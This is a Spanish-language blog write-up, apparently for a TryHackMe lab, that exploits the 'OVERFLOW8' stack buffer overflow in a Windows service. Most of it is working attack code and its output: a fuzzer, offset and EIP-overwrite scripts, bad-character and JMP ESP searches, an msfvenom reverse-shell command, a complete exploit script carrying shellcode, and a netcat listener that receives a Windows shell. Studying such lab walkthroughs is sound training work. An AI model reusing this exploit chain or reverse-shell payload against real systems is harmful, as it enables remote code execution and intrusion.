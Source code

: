 ```yaml
---
layout: post
title: BofferOverflow8 - THM
subtitle: BofferOverflow8 - THM
tags: [bof,windows,python]
---
```


**EIP**: Es el puntero de instrucción, Señala(mantiene la dirección de) el 1er byte de la siguiente instrucción que se ejecutará. 
**ESP**: Es el puntero de pila. Apunta(contiene la dirección) del valor introducido más recientemente en la pila.

## Fuzzing

Primera etapa de un desbordamiento en pila que consiste en enviar datos aleatorios en la entrada del programa de manera automatizada, de esta forma comprobar la seguridad de la entrada en lo que respecta a la validación de datos.

```
#!/usr/bin/python

import socket, sys
from time import sleep

buffer = "A" * 200

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.settimeout(2)
        s.connect(('192.168.0.102',1337))
        s.recv(1024)

        print '[*] Length: ' + str(len(buffer))
        s.send("OVERFLOW8 " + buffer)
        s.close()
        sleep(1)
        buffer=buffer+'A'* 200

    except Exception as e:
        print '[*] Error: ' + str(e)
        sys.exit(1)
```

```
❯ python fuzzer.py
[*] Length: 200
[*] Length: 400
[*] Length: 600
[*] Length: 800
[*] Length: 1000
[*] Length: 1200
[*] Length: 1400
[*] Length: 1600
[*] Length: 1800
[*] Error: timed out
```

![crash](../assets/imgs/bof8/crash.png)

##  Encontrar el EIP

```
> pwn cyclic 2000
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaab[...]
```

```
import socket, sys
from time import sleep

buffer = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaacoaacpaacqa[..]"

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('192.168.0.102',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW8 " + buffer)
  s.close()

except Exception as e:
  print '[!]' + str(e)
  sys.exit()
```

![eip](../assets/imgs/bof8eip.png)

```
❯ pwn cyclic -l "arwa"
1786
```

## Sobreescribir EIP

```
import socket, sys
from time import sleep

buffer = "A"  * 1786 + "B" * 4 + "C" *100

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('192.168.0.102',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW8 " + buffer)
  s.close()

except Exception as e:
  print '[!]' + str(e)
  sys.exit()
```

![eip2](../assets/imgs/bof8/eip2.png)

## Encontrar badchars

Damos click derecho en el registro `esp` y seleccionamos la opción `follo in dump`.

![follow](../assets/imgs/bof8/follow.png)

Seleccionamos los caracteres que no se interpretan.

![chars](../assets/imgs/bof8/chars.png)

badchars: `\x00\x1d\x2e\xc7\xee`

----

## Buscar el modulo adecuado

![modulos](../assets/imgs/bof8/modulos.png)

Buscando `dll` para un salto a `JMP ESP`

![dll](../assets/imgs/bof8/dll.png)

Forma resumida:

```
!mona jmp -r esp -cpb "\x00\x1d\x2e\xc7\xee"
```

![cpb](../assets/imgs/bof8/cpb.png)

----

## Generar shellcode

| argumento | descripción |
|--|--|
| lhost | IP del atacante |
| lport |  puerto de elección del atacante |
| EXITFUNC=thread | agrega estabilidad a nuestro payload |
| -f | tipo de archivo |
| -a | arquitectura de la máquina |
| --platform | tipo de Sistema Operativo |
| -b | badchars |

```
❯ sudo msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.107 lport=4444 -b "\x00\x1d\x2e\xc7\xee" EXITFUNC=thread -f c
```

```
import socket
import sys
from time import sleep

shellcode=("\xdb\xc2\xbe\x9e\xc4\x32\x0e\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x52\x31\x70\x17\x03\x70\x17\x83\x5e\xc0\xd0\xfb\xa2\x21\x96"
"\x04\x5a\xb2\xf7\x8d\xbf\x83\x37\xe9\xb4\xb4\x87\x79\x98\x38"
"\x63\x2f\x08\xca\x01\xf8\x3f\x7b\xaf\xde\x0e\x7c\x9c\x23\x11"
"\xfe\xdf\x77\xf1\x3f\x10\x8a\xf0\x78\x4d\x67\xa0\xd1\x19\xda"
"\x54\x55\x57\xe7\xdf\x25\x79\x6f\x3c\xfd\x78\x5e\x93\x75\x23"
"\x40\x12\x59\x5f\xc9\x0c\xbe\x5a\x83\xa7\x74\x10\x12\x61\x45"
"\xd9\xb9\x4c\x69\x28\xc3\x89\x4e\xd3\xb6\xe3\xac\x6e\xc1\x30"
"\xce\xb4\x44\xa2\x68\x3e\xfe\x0e\x88\x93\x99\xc5\x86\x58\xed"
"\x81\x8a\x5f\x22\xba\xb7\xd4\xc5\x6c\x3e\xae\xe1\xa8\x1a\x74"
"\x8b\xe9\xc6\xdb\xb4\xe9\xa8\x84\x10\x62\x44\xd0\x28\x29\x01"
"\x15\x01\xd1\xd1\x31\x12\xa2\xe3\x9e\x88\x2c\x48\x56\x17\xab"
"\xaf\x4d\xef\x23\x4e\x6e\x10\x6a\x95\x3a\x40\x04\x3c\x43\x0b"
"\xd4\xc1\x96\x9c\x84\x6d\x49\x5d\x74\xce\x39\x35\x9e\xc1\x66"
"\x25\xa1\x0b\x0f\xcc\x58\xdc\xf0\xb9\x62\x77\x99\xbb\x62\x96"
"\x05\x35\x84\xf2\xa5\x13\x1f\x6b\x5f\x3e\xeb\x0a\xa0\x94\x96"
"\x0d\x2a\x1b\x67\xc3\xdb\x56\x7b\xb4\x2b\x2d\x21\x13\x33\x9b"
"\x4d\xff\xa6\x40\x8d\x76\xdb\xde\xda\xdf\x2d\x17\x8e\xcd\x14"
"\x81\xac\x0f\xc0\xea\x74\xd4\x31\xf4\x75\x99\x0e\xd2\x65\x67"
"\x8e\x5e\xd1\x37\xd9\x08\x8f\xf1\xb3\xfa\x79\xa8\x68\x55\xed"
"\x2d\x43\x66\x6b\x32\x8e\x10\x93\x83\x67\x65\xac\x2c\xe0\x61"
"\xd5\x50\x90\x8e\x0c\xd1\xb0\x6c\x84\x2c\x59\x29\x4d\x8d\x04"
"\xca\xb8\xd2\x30\x49\x48\xab\xc6\x51\x39\xae\x83\xd5\xd2\xc2"
"\x9c\xb3\xd4\x71\x9c\x91")

buffer = 'A'*1766 + "\x90"*20 + '\xaf\x11\x50\x62' + "\x90"*20 + shellcode

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.connect(('192.168.0.102',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW8 " + buffer)
  s.close()

except Exception as e:
  print '[*] Error: ' + str(e)
  sys.exit()
```

----

## Ganar acceso al sistema

```
❯ python exploit.py
[*] Sending buffer

─────────────────────────────────────────────────────────────────

❯ nano exploit.py
❯ cat exploit.py | xclip -sel clip
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.102] 49413
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\win7bits\Desktop\vulnerable-apps\oscp>whoami
whoami
win7\win7bits
```
